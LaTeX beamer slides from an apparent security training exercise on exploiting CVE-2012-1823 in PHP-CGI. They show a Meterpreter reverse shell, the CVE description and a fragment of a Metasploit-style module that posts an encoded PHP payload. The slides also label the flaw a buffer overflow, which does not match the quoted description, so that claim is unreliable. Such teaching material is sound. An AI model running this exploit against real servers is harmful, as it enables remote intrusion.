 \documentclass[handout]{beamer}
\begin{document}
\begin{frame}
	\frametitle{Exercise 2: Basic Exploits}
    And now we have a reverse shell with Meterpreter:
	\begin{figure}
	    \centering
        \includegraphics[width=\textwidth]{../drawable/exercise_2_screenshots/shell_opened.png}
	    \caption{Opening a shell with Meterpreter}
	\end{figure}
\end{frame}

\begin{frame}
	\frametitle{Exercise 2: Exploit details}
    The exploit we used has CVE-ID \texttt{CVE-2012-1823}:
    \begin{block}{CVE-2012-1823}
        \texttt{sapi/cgi/cgi\_main.c} in \texttt{PHP} before 5.3.12 and 5.4.x before 5.4.2, when configured as a CGI script (aka php\-cgi), does not properly handle query strings that lack an = (equals sign) character, which allows remote attackers to execute arbitrary code by placing command-line options in the query string, related to lack of skipping a certain php\_getopt for the 'd' case.      
    \end{block}
\end{frame}

\begin{frame}[fragile]
	\frametitle{Exercise 2: Exploit details}
	The source of the buffer overflow in \texttt{cgi\_main.c}
    \begin{lstlisting}[showspaces=false,breaklines=true]
// [...] here len is the same length of php_optarg
memcpy(
    cgi_sapi_module.ini_entries + ini_entries_len,
    php_optarg,
    len
);
// [...]
    \end{lstlisting}
\end{frame}

\begin{frame}[fragile]
	\frametitle{Exercise 2: Exploit details}
	Snippet from the exploit file
    \begin{lstlisting}[showspaces=false,breaklines=true,showstringspaces=false]
payload_oneline = "<?php " + payload.encoded.gsub(/\s*#.*$/, "").gsub("\n", "")
response = send_request_cgi( {
    'method' => "POST",
    'global' => true,
    'uri'    => "#{uri}?#{qs}",
    'data'   => payload_oneline,
}, 0.5)
    \end{lstlisting}
\end{frame}
\end{document}
